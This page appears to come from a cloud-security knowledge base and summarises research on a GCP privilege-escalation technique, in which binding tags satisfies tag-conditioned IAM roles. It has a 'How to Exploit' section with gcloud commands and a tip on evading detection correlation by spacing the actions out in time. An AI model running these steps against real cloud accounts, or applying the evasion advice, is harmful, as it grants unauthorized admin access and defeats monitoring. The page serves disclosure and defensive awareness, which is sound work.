




<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://www.mitiga.io/blog/tag-your-way-in-new-privilege-escalation-technique-in-gcp">Tag Your Way In: New Privilege Escalation Technique in GCP</a> by <a href="https://www.linkedin.com/in/ariel-kalman-47314a19b/">Ariel Kalman</a></p>
    <p></img></p>
    </aside>

</div>


GCP IAM Conditions allow fine-grained access control using context like time, resource type, and tags—but those same tags can enable unexpected privilege escalation. **In this post, we show how a user with only viewer and tagUser roles can escalate to full admin access without changing any IAM policy**.

## Background
#### Conditional Access Based on Tags

In GCP, IAM policies control access by assigning roles to members on resources, optionally using conditions based on request time, IP address, or resource tags. Tags are key-value pairs that can be inherited and used in IAM Conditions, such as resource.matchTag('env', 'sandbox'), to enforce fine-grained access control.

For example, this is an IAM policy with a resource tag condition:
```json
{
  "bindings": [
    {
      "condition": {
        "description": "Only allow access if a resource is tagged env=sandbox",
        "expression": "resource.matchTag('env', 'sandbox')",
        "title": "SandboxTagCondition"
      },
      "members": [
        "group:sandbox_users@**************"
      ],
      "role": "roles/compute.admin"
    }
}
```

#### TagBindings and Role-Based Tag Management
Tags are attached to resources using tagBindings, which link a resource to a specific tagValue.


#### Tag Management Roles

In GCP, tag management access is controlled using the following IAM roles:

- [`roles/resourcemanager.tagViewer`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagViewer)
- [`roles/resourcemanager.tagUser`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagUser)
- [`roles/resourcemanager.tagAdmin`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagAdmin)

!!! Tip
    To evade detection, an attacker could perform the tag binding and the privileged action in separate sessions or with a time gap greater than X minutes, breaking the detectable sequence used in correlation rules


## How to Exploit


### 1. Enumerate IAM Policies  
```shell 
gcloud projects get-iam-policy <PROJECT_ID>
``` 
**Required Role:**  `roles/resourcemanager.projects.getIamPolicy`  
**Impact:**  Discover IAM bindings and tag-based conditions
<figure markdown>
  { loading=lazy }
</figure>


### 2. List Available Tags  
```shell 
gcloud resource-manager tags keys list --parent=folders/<FOLDER_ID>
gcloud resource-manager tags values list --parent=tagKeys/<TAG_KEY_ID>
```
**Required Role:**  `roles/resourcemanager.tagUser`  
**Impact:**  Enumerate tag keys and values.
<figure markdown>
  { loading=lazy }
</figure>


### 3. Bind Tags to Resource  
```shell
gcloud resource-manager tags bindings create \
  --tag-value=tagValues/<TAG_VALUE_ID> \
  --parent=//cloudresourcemanager.googleapis.com/projects/<PROJECT_ID>
```
**Required Role:**  `roles/resourcemanager.tagUser`  
**Impact:**  Attach tags to satisfy IAM conditions.
<figure markdown>
  { loading=lazy }
</figure>


### 4. Exploit Conditional Access  
```shell
gcloud compute instances delete-access-config instance-<INSTANCE_NAME> \
  --zone=us-central1-c \
  --access-config-name="External NAT" \
  --network-interface=nic0

```  
**Required Role:** `roles/compute.admin`  
**Impact:**  A privileged operation succeeded using elevated permissions (in this case, the removal of a public IP address from a GCE instance).
<figure markdown>
  { loading=lazy }
</figure>


!!! Warning
    The granted privileged role depends entirely on the IAM policy. If the policy assigns `roles/compute.admin` to resources with the tag, that's what the attacker gets, but it could just as easily be `roles/compute.viewer` or any other role.


## Impact
This privilege escalation technique can lead to unauthorized access, full admin control over key services, and long-term persistence by exploiting dynamic tag-based IAM conditions. It’s a realistic risk: public Terraform modules frequently assign the tagUser role to non-admins like CI/CD accounts or integration service accounts, as seen in examples from [terraform-example-foundation](https://github.com/terraform-google-modules/terraform-example-foundation/blob/main/0-bootstrap/sa.tf) and [cloud-foundation-fabric](https://github.com/GoogleCloudPlatform/cloud-foundation-fabric/blob/master/fast/stages/0-bootstrap/README.md).

!!! Note
    For a deeper technical walkthrough, check out the [full blog post](https://www.mitiga.io/blog/tag-your-way-in-new-privilege-escalation-technique-in-gcp) or [contact me](https://www.linkedin.com/in/ariel-kalman-47314a19b/) for more information.


